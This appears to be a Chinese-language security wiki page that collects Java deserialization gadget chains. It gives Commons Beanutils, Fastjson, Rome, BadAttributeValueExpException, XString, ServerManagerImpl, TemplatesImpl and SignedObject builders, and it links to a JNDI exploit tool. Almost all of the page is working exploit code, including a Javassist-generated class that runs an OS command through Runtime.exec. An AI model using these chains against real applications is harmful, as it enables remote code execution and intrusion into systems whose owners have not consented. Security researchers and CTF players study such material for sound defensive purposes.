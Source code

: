 # Java 反序列化 Gadget


### deserialize2Getter

??? info "Commons Beanutils (from [Eki-marshalexp](https://github.com/EkiXu/marshalexp))"
    ```java
    public static PriorityQueue deserialize2Getter(Object obj,String getterName) throws Exception{
        final BeanComparator comparator = new BeanComparator(null, String.CASE_INSENSITIVE_ORDER);
        // create queue with numbers and basic comparator
        final PriorityQueue<Object> queue = new PriorityQueue<Object>(2, comparator);
        // stub data for replacement later
        queue.add("1");
        queue.add("1");

        // switch method called by comparator
        ReflectUtils.setFieldValue(comparator, "property", getterName);

        // switch contents of queue
        final Object[] queueArray = (Object[]) ReflectUtils.getFieldValue(queue, "queue");
        queueArray[0] = obj;
        queueArray[1] = obj;
        return queue;
    }
    ```

### toString2Getter

??? info "Fastjson (from [Eki-marshalexp](https://github.com/EkiXu/marshalexp))"
    ```java
    public static JSONObject toString2Getter(Object obj){
        JSONObject gadget = new JSONObject();
        gadget.put("eki",obj);
        return gadget;
    }
    ```

??? info "rome/rometools (from [Eki-marshalexp](https://github.com/EkiXu/marshalexp))"
    ```java
    public static ObjectBean toString2Getter(Class<?> clz, Object o){
    //        ToStringBean tb = new ToStringBean(clz, o);
    //        EqualsBean eb = new EqualsBean(ToStringBean.class, tb);
        ObjectBean tb = new ObjectBean(clz,o);
        ObjectBean eb = new ObjectBean(ObjectBean.class,tb);
        return eb;
    }
    ```

### deserialize2ToString
??? info "BadAttributeValueExpException (from [Eki-marshalexp](https://github.com/EkiXu/marshalexp))"
    ```java
    public static BadAttributeValueExpException deserialize2ToString(Object poc) throws Exception {
        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
        ReflectUtils.setFieldValue(badAttributeValueExpException,"val",poc);
        return badAttributeValueExpException;
    }
    ```

??? info "XString (from [Eki-marshalexp](https://github.com/EkiXu/marshalexp))"
    准确来说是 `hashCode2ToString`。
    ```java
    public static HashMap deserialize2ToString(Object obj) throws Exception{
        XString xString = new XString("Eki");

        HashMap map1 = new HashMap();
        HashMap map2 = new HashMap();
        map1.put("yy",obj);
        map1.put("zZ",xString);

        map2.put("yy",xString);
        map2.put("zZ",obj);

        HashMap gadget = GHashMap.deserialize2HashCode(map1,map2);
        return gadget;
    }
    ```


### getter2RCE
??? info "JDK - ServerManagerImpl  (from [Eki-marshalexp](https://github.com/EkiXu/marshalexp))"
    ```java
    public static ServerManagerImpl getter2RCE(String cmd) throws Exception {
        ServerTableEntry entry = (ServerTableEntry) ReflectUtils.forceNewInstance(ServerTableEntry.class);
        ReflectUtils.setFieldValue(entry,"activationCmd",cmd);
        ReflectUtils.setFieldValue(entry,"state",2);
        ReflectUtils.setFieldValue(entry, "process", new Process() {
            @Override
            public OutputStream getOutputStream() {
                return null;
            }

            @Override
            public InputStream getInputStream() {
                return null;
            }

            @Override
            public InputStream getErrorStream() {
                return null;
            }

            @Override
            public int waitFor() throws InterruptedException {
                return 0;
            }

            @Override
            public int exitValue() {
                return 0;
            }

            @Override
            public void destroy() {

            }
        });
        ServerManagerImpl obj = (ServerManagerImpl) ReflectUtils.forceNewInstance(ServerManagerImpl.class);
        HashMap serverTable = new HashMap<>(256);
        serverTable.put(1,entry);
        ReflectUtils.setFieldValue(obj,"serverTable",serverTable);
        return obj;
    }
    ```
??? info "JDK - TemplatesImpl (from [Bridge-wiki](https://github.com/KingBridgeSS/wiki))"
    ```java
    TemplatesImpl templates = new TemplatesImpl();
    ClassPool classPool = ClassPool.getDefault();
    classPool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
    CtClass ctClass = classPool.makeClass("Evil");
    ctClass.setSuperclass(classPool.get(AbstractTranslet.class.getName()));
    String shell = "java.lang.Runtime.getRuntime().exec(\"calc\");";
    ctClass.makeClassInitializer().insertBefore(shell);

    byte[] shellCode = ctClass.toBytecode();
    byte[][] targetByteCode = new byte[][]{shellCode};

    Class c1 = templates.getClass();
    Field _name = c1.getDeclaredField("_name");
    Field _bytecode = c1.getDeclaredField("_bytecodes");
    Field _tfactory = c1.getDeclaredField("_tfactory");
    _name.setAccessible(true);
    _bytecode.setAccessible(true);
    _tfactory.setAccessible(true);
    _name.set(templates, "");
    _bytecode.set(templates, targetByteCode);
    _tfactory.set(templates, new TransformerFactoryImpl());
    ```

??? info "UnixPrintServiceLookup"
    仅在 Linux 环境低jdk版本下有

### getter2Deserialize
??? info "JDK - SignedObject (from [Eki-marshalexp](https://github.com/EkiXu/marshalexp))"
    ```java
    public static java.security.SignedObject getter2Deserialize(Object poc) throws Exception{

    //Create a key
        KeyPairGenerator keyGen = KeyPairGenerator.getInstance("DSA", "SUN");
        SecureRandom random = SecureRandom.getInstance("SHA1PRNG", "SUN");
        keyGen.initialize(1024, random);
    // create a private key
        PrivateKey signingKey = keyGen.generateKeyPair().getPrivate();
    // create a Signature
        Signature signingEngine = Signature.getInstance("DSA");
        signingEngine.initSign(signingKey);
    // sign our object
        SignedObject so = new SignedObject((Serializable) poc, signingKey, signingEngine);
        return so;
    }
    ```


### 一些工具

- https://github.com/WhiteHSBG/JNDIExploit
